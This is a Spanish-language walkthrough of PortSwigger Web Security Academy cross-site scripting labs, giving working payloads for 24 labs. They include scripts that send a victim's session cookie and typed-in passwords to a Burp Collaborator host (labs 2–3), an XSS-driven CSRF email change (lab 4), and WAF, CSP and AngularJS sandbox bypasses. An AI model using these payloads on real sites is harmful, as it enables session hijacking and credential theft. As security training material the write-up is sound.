# Cross-site scripting - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)

## Índice


## 1. Lab: Reflected XSS into HTML context with nothing encoded

```
Este laboratorio contiene una vulnerabilidad XSS reflejada simple en la función de búsqueda.

Para resolver el laboratorio, realice un ataque XSS que llame a la función alert.
```

Payload

```
https://acc21f861f22e8c880220b6c0070003c.web-security-academy.net/?search=<script>alert(1)</script>
```


## 2. Lab: Exploiting cross-site scripting to steal cookies

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.
```

Para este laboratorio vamos a ingresar a un post y realizar un comentario mientras interceptamos todos los paquetes en segundo plano mediante la herramienta de burpsuite. Luego lo enviamos al repeater y preparamos nuestro payload.

```
<script>document.location='http://lti3h8huag0tmmzul0n2ujpz0q6gu5.burpcollaborator.net/?'+document.cookie</script>
```

Entonces lo enviamos en el repeater, y esperamos la respuesta en el burp collaborator.


Entonces, la cookie robada es la siguiente:

```
secret=avJbuCyJJiBnI7NFZJ4sbbdOXdKAb4Py; session=4TWOZsQYlS5PASECvxhQPUONxdZ5qi6l
```

Entonces ingresamos al home del laboratorio, interceptamos el paquete y cambiamos la cookie para completar el laboratorio.


## 3. Lab: Exploiting cross-site scripting to capture passwords

```
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's username and password then use these credentials to log in to the victim's account.
```

Entonces primero iremos a la seccion de login para recoger las dos etiquetas input de usuario y contraseña.

```
<input required="" type="username" name="username">
<input required="" type="password" name="password">
```

Y para obtener el valor dentro de estos input podemos usar el payload:

```
document.getElementsByName("username")[0].value
document.getElementsByName("password")[0].value
```

Entonces, creamos nuestro payload.

```html
<input required="" type="username" name="username"><input required="" type="password" name="password"><script>document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName("username")[0].value+'&'+document.getElementsByName("password")[0].value</script>
```

Entonces, iniciamos el modo **Intercept ON** del burpsuite, y cambiamos el valor del mensaje por el payload, encodeado con URL encode.


Podemos ver que envia el paquete


Pero lo envia sin informacion, esto puede ocurrir porque a la hora de realizar el document.location todavia no se realizó el autocompletado, por ello haremos uso del atributo **onchange**. 

```html
<input required="" type="username" name="username"><input required="" type="password" name="password" onchange="document.location='http://9s2dl5quximg9tsq7m5m5gvfj6pwdl.burpcollaborator.net/?'+document.getElementsByName('username')[0].value+'&'+document.getElementsByName('password')[0].value">
```


Entonces, verificamos el **burp collaborator** y obtenemos las credenciales.


```
administrator:ef6gbovly0a77qvxul8i
```

Entonces, nos logeamos con las credenciales y completamos el laboratorio.


## 4. Lab: Exploiting XSS to perform CSRF

```
This lab contains a stored XSS vulnerability in the blog comments function. To solve the lab, exploit the vulnerability to perform a CSRF attack and change the email address of someone who views the blog post comments.
```

Antes de todo necesitamos entender como funciona el cambio de contraaeña, así que cambiaremos la contraseña de nuestra cuenta **wiener** para conocer los parametros y la ruta a donde se debe enviar.

```
POST /email/change-email HTTP/1.1
Host: ac411fe71f8b856f80352cd100b300fe.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Origin: https://ac411fe71f8b856f80352cd100b300fe.web-security-academy.net
DNT: 1
Connection: close
Referer: https://ac411fe71f8b856f80352cd100b300fe.web-security-academy.net/email
Cookie: session=aFgfuzayL8jK1xA5jr3j6Z1fQvH6Kbsv
Upgrade-Insecure-Requests: 1

email=a%40a.a&csrf=6f8A1jOKIzioIeAGRZayu2KCRH2q0mTf
```

Entonces, realizaremos un payload XSS con los parametros del paquete anterior:

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/email',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/email/change-email', true);
    changeReq.send('csrf='+token+'&email=a@a.a')
};
</script>
```

Entonces lo enviamos por comentario y terminamos el laboratorio.


## 5. Lab: Stored XSS into HTML context with nothing encoded

```
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the blog post is viewed
```

Payload

```html
<script>alert(1)</script>
```


## 6. Lab: Reflected XSS into HTML context with most tags and attributes blocked

```
This lab contains a reflected cross-site scripting vulnerability in the search functionality but uses a web application firewall (WAF) to protect against common XSS vectors.

To solve the lab, perform a cross-site scripting attack that bypasses the WAF and alerts document.cookie.
```

Al ejecutar el payload común obtenemos la siguiente respuesta.


Entonces lo que haremos será enviar la consulta GET del search al intruder, y luego en la **Cross-site scripting (XSS) cheat sheet**, https://portswigger.net/web-security/cross-site-scripting/cheat-sheet , clic en **copy tags to clipboard**.


Luego en el intruder realizamos la siguiente configuracion:


Luego verificamos que el **payload** que nos dió codigo 200 fue **body**


Ahora realizamos lo mismo pero con los eventos.


Luego verificamos que el **payload** que nos dió codigo 200 fue **onresize**


Entonces el payload final sería el siguiente:

```
<body onresize=alert(1)>
```

Ahora podemos probar el payload en la pagina, y luego cambiamos de tamaño  a la ventana y vemos que nos genera el alert.


Ahora hacemos clic en **Go to exploit server** y diseñamos un iframe para que realice el **resize** por nosotros.

```
<iframe src="https://ac2f1fe11f9e36b080425a7400750067.web-security-academy.net/?search=%3Cbody%20onresize=alert(document.cookie)%3E" onload=this.style.width='100px'>
```

Entonces le damos en **Store** y luego en **Deliver exploit to victim**.


Y luego de ello vamos al home del laboratorio para ver que lo completamos.


## 7. Lab: Reflected XSS into HTML context with all tags blocked except custom ones

```
This lab blocks all HTML tags except custom ones.

To solve the lab, perform a cross-site scripting attack that injects a custom tag and automatically alerts document.cookie.
```

Entonces buscamos un payload custom, y obtenemos el siguiente:

```
<xss id=x tabindex=1 onfocus=alert(1)>
```

Pero si lo colocamos en el navegador, este no genera ningun mensaje de alert, así que lo lo que haremos será llamar a la etiqueta que escribimos, y esto podemos hacer haciendo referencia al id de la etiqueta el cual es **x**, entonces en la url al final agregamos los caracteres **#x** para hacer el llamado a la etiqueta con id **x**, que justamente es nuestor payload.

 ```
<xss id=x tabindex=1 onfocus=alert(1)>#x
 ```


Entonces ahora vamos a el **exploit server** y escribimos el siguiente payload.

```html
<script>
    document.location='https://ace51ff81f542d2f800b9fba009400af.web-security-academy.net/?search=<xss id=x tabindex=1 onfocus=alert(document.cookie)>#x';
</script>
```

Entonces Guardamos y enviamos a la victima.


Entonces vamos al home del laboratorio para verificar que lo completamos.


## 8. Lab: Reflected XSS with event handlers and href attributes blocked

Payload

```
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```


## 9. Lab: Reflected XSS with some SVG markup allowed

```
This lab has a simple reflected XSS vulnerability. The site is blocking common tags but misses some SVG tags and events.

To solve the lab, perform a cross-site scripting attack that calls the alert() function.
```

Payload

```html
<svg><animatetransform onbegin=alert(1)>
```



## 10. Lab: Reflected XSS into attribute with angle brackets HTML-encoded

```
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality where angle brackets are HTML-encoded. To solve this lab, perform a cross-site scripting attack that injects an attribute and calls the alert function.
```

Payload

```
" autofocus onfocus=alert(1) x="
```


## 11. Lab: Stored XSS into anchor `href` attribute with double quotes HTML-encoded

```
This lab contains a stored cross-site scripting vulnerability in the comment functionality. To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.
```



Payload

```
javascript:alert(document.domain)
```





## 12. Lab: Reflected XSS in canonical link tag

```
This lab reflects user input in a canonical link tag and escapes angle brackets.

To solve the lab, perform a cross-site scripting attack on the home page that injects an attribute that calls the alert function.

To assist with your exploit, you can assume that the simulated user will press the following key combinations:

ALT+SHIFT+X
CTRL+ALT+X
Alt+X
Please note that the intended solution to this lab is only possible in Chrome.
```

Entonces vamos a la url y agregamos lo siguiente y verificamos si existe alguna variacion en el codigo:

```
https://acd71f591ee689ce804595b50035007d.web-security-academy.net/?payload
```



Entonces ideamos un payload para generar un alert.

```
' ><h1>a
```



Al parecer no podemos usar los caracteres **< >** entonces debemos seguir en el mismo tag, para ello pensamos el siguiente payload.

```
'onload='alert(1)
```



Pero, no genera ningun alert, lo que haremos será crear un argumento de accion como **onclick** y luego lo llamamos con **accesskey**.

```
'accesskey='x'onclick='alert(1)
```



Entonces para ejecutar el alert realizamos cualquiera de las conbinaciones de teclas que nos recomiendan. **(ALT+SHIFT+X)**



## 13. Lab: Reflected XSS into a JavaScript string with single quote and backslash escaped

```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality. The reflection occurs inside a JavaScript string with single quotes and backslashes escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```

URL

```
https://ac381fa71fb08026809a014b003200b6.web-security-academy.net/?search=aaa
```

Respuesta

```
<script>
    var searchTerms = 'aaa'; 
    document.write('');
</script>
```

Entonces, elaboramos un payload para salir de la etiqueta **<script>** y ejecutar un payload xss.

```
</script>
```



## 14. Lab: Reflected XSS into a JavaScript string with angle brackets HTML encoded

```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets are encoded. The reflection occurs inside a JavaScript string. To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```

Como se codifican los caracteres **< >** entonces, lo que haremos será romper la cadena e ingresar nuestro payload.

URL

```
https://ace71fd51f81802680da0524003700b4.web-security-academy.net/?search=aaa
```

Respuesta

```
<script>
    var searchTerms = 'aaa';
    document.write('');
</script>
```

Entonces diseñamos el siguiente payload.

```
'-alert(document.domain)-'
```



## 15. Lab: Reflected XSS into a JavaScript string with angle brackets and double quotes HTML-encoded and single quotes escaped

```
This lab contains a reflected cross-site scripting vulnerability in the search query tracking functionality where angle brackets and double are HTML encoded and single quotes are escaped.

To solve this lab, perform a cross-site scripting attack that breaks out of the JavaScript string and calls the alert function.
```

URL

```
https://acc31f9a1fc4e81080ad779600f40026.web-security-academy.net/?search=';alert(document.domain)//	
```

Respuesta

```
<script>
    var searchTerms = '\';alert(document.domain)//';
    document.write('');
</script>
```

Entonces, como podemos ver le agrega un **\\** en la comilla simple entonces lo que haremos será agregar de por si un **\\** para que no nos bloquee la comilla simple, con el siguiente payload

```
\';alert(document.domain)//
```


## 16. Lab: Reflected XSS in a JavaScript URL with some characters blocked (P)

```
This lab reflects your input in a JavaScript URL, but all is not as it seems. This initially seems like a trivial challenge; however, the application is blocking some characters in an attempt to prevent XSS attacks.

To solve the lab, perform a cross-site scripting attack that calls the alert function with the string 1337 contained somewhere in the alert message.
```

URL

```
https://ac901f681ed32e2180a00c4e002a003e.web-security-academy.net/post?postId=2&aaa
```

Respuesta

```html
<div class="is-linkback">
	<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d2%26aaa'}).finally(_ => window.location = '/')">Back to Blog</a>
</div>
```

Entonces lo que haremos será generar un payload que ejecute un alert.

```
'},x=x=>{throw/**/onerror=alert,1337},toString=x,window '',{x:'
```



## 17. Lab: Stored XSS into onclick event with angle brackets and double quotes HTML-encoded and single quotes and backslash escaped

```
This lab contains a stored cross-site scripting vulnerability in the comment functionality.

To solve this lab, submit a comment that calls the alert function when the comment author name is clicked.
```

Payload en el lugar de website.

```
http://a.com&apos;-alert(document.domain)-&apos;
```



## 18. Lab: Reflected XSS into a template literal with angle brackets, single, double quotes, backslash and backticks Unicode-escaped

```
This lab contains a reflected cross-site scripting vulnerability in the search blog functionality. The reflection occurs inside a template string with angle brackets, single, and double quotes HTML encoded, and backticks escaped. To solve this lab, perform a cross-site scripting attack that calls the alert function inside the template string.
```

Payload

```
${alert(1)}
```


## 19. Lab: Reflected XSS with AngularJS sandbox escape without strings (P)

```
This lab uses AngularJS in an unusual way where the $eval function is not available and you will be unable to use any strings in AngularJS.

To solve the lab, perform a cross-site scripting attack that escapes the sandbox and executes the alert function without using the $eval function.
```

URL

```
https://acb21f281e6b46ae80ce52c30094008a.web-security-academy.net/?search=1&toString().constructor.prototype.charAt%3d[].join;[1]|orderBy:toString().constructor.fromCharCode(120,61,97,108,101,114,116,40,49,41)=1
```



## 20. Lab: Reflected XSS with AngularJS sandbox escape and CSP (P)

```
This lab uses CSP and AngularJS.

To solve the lab, perform a cross-site scripting attack that bypasses CSP, escapes the AngularJS sandbox, and alerts document.cookie.
```

Payload

```
%3Cinput%20id=x%20ng-focus=$event.path|orderBy:%27(z=alert)(document.cookie)%27%3E#x
```


Luego vamos al Exploit Server, y enviamos el siguiente payload.





## 21. Lab: DOM XSS in document.write sink using source location.search

```
This lab contains a DOM-based cross-site scripting vulnerability in the search query tracking functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search, which you can control using the website URL.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```

Buscamos cualquier texto por ejemplo **aaa** en el laboratorio y luego revisamos si encontramos alguna coincidencia en el codigo fuente. Vemos que solo tenemos una coincidencia pero luego encontramos un codigo **HTML** interesante.

```
<script>
    function trackSearch(query) {
    	document.write('');
    }
    var query = (new URLSearchParams(window.location.search)).get('search');
    if(query) {
    	trackSearch(query);
    }
</script>
```

Por ello si analizamos el mismo string pero mediante el codigo fuente de **inspecionar elemento** nos encontramos con otra coincidencia mas.



Entonces generamos el siguiente payload para ejecutar el alert.

```
"><script>alert(1)</script>
```



## 22. Lab: DOM XSS in document.write sink using source location.search inside a select element

```
This lab contains a DOM-based cross-site scripting vulnerability in the stock checker functionality. It uses the JavaScript document.write function, which writes data out to the page. The document.write function is called with data from location.search which you can control using the website URL. The data is enclosed within a select element.

To solve this lab, perform a cross-site scripting attack that breaks out of the select element and calls the alert function.
```

Revisando el codigo fuente podemos ver una seccion de html interesante.

```html
                            <script>
                                var stores = ["London","Paris","Milan"];
                                var store = (new URLSearchParams(window.location.search)).get('storeId');
                                document.write('<select name="storeId">');
                                if(store) {
                                    document.write('<option selected>'+store+'</option>');
                                }
                                for(var i=0;i<stores.length;i++) {
                                    if(stores[i] === store) {
                                        continue;
                                    }
                                    document.write('<option>'+stores[i]+'</option>');
                                }
                                document.write('</select>');
                            </script>
```

Podemos ver que entre todo el codigo, está la funcion **URLSearchParams(window.location.search)).get('storeId')** en donde está que obtiene el valor del parametro get **storeId**. entonces, enviamor por url ese parametro realizando un valor aleatorio por ejempl **aaa**.



Entonces generamos el siguiente payload para ejecutar el alert.

```
</option></select>
```



## 23. Lab: DOM XSS in innerHTML sink using source location.search

```
This lab contains a DOM-based cross-site scripting vulnerability in the search blog functionality. It uses an innerHTML assignment, which changes the HTML contents of a div element, using data from location.search.

To solve this lab, perform a cross-site scripting attack that calls the alert function.
```

Buscamos cualquier texto por ejemplo **aaa** en el laboratorio y luego revisamos si encontramos alguna coincidencia en el codigo fuente. Vemos que solo tenemos una coincidencia pero luego encontramos un codigo **HTML** interesante.



Entonces generamos el siguiente payload para ejecutar el alert.

```

```



## 24. Lab: DOM XSS in jQuery anchor href attribute sink using location.search source

```
This lab contains a DOM-based cross-site scripting vulnerability in the submit feedback page. It uses the jQuery library's $ selector function to find an anchor element, and changes its href attribute using data from location.search.

To solve this lab, make the "back" link alert document.cookie.
```

Ingresamos a cualquier producto o al enlace **Submit feedback** y analizando el codigo fuente encontramos lo siguiente

```
<script>
    $(function() {
    	$('#backLink').attr("href", (new URLSearchParams(window.location.search)).get('returnPath'));
    });
</script>
```

